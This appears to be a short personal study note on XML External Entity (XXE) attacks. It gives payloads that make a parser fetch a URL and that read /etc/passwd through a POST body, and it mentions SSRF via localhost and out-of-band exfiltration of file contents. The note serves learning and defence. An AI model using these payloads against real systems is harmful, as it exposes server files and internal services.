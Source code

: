 Visit [[XML]] to learn more about XML

This vulnerability comes from External XML Entity that accepts `SYSTEM` operand

Simple Example
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note [<!ENTITY entity-name SYSTEM "URI/URL">]>  
<note>  
<to>Tove</to>  
<from>Jani</from>  
<heading>Reminder</heading>  
<body>Don't forget me this weekend!</body>  
</note>
```

Now, lets put actual values inside placeholders
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note [<!ENTITY writer SYSTEM "http://x.com/">]>  
<note>  
<to>Tove</to>  
<from>Jani</from>  
<heading>Reminder</heading>  
<body>Don't forget me this weekend!</body>  
</note>
```

As a result, XML parser would send a HTTP GET request to the specified URL

To prevent this vulnerability, the web server(s) should not be able to go make a request outside the DMZ. Look at [[Modern Web Workflow]] to understand

#### XML in POST request
Reading contents of `/etc/passwd` file using a XML as a body for POST request.
Here wrong `productId` returns an error with contents of `productId`. Therefore, we can read the given file.
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note [<!ENTITY writer SYSTEM "file:///etc/passwd">]>  
<stockCheck>  
	<productId>&writer;</productId>
	<storeId>1</storeId>
</stockCheck>
```

> [!info] Causing SSRF through XXE
> You can also cause [[SSRF]] by writing localhost after `SYSTEM` operand

---
#### Reading an XML file using XXE
You can't just read XML files with previous methods, as the XML parser breaks and does not count another XML file as proper data

So you do a simple GET request to read the content of the xml file, and after it comes back, you send another GET request with the content of the XML file as parameter for the GET request

---
## Related links

Check out this [video](https://www.youtube.com/watch?v=-BPnSQou8yw) by mdisec to learn more about XXE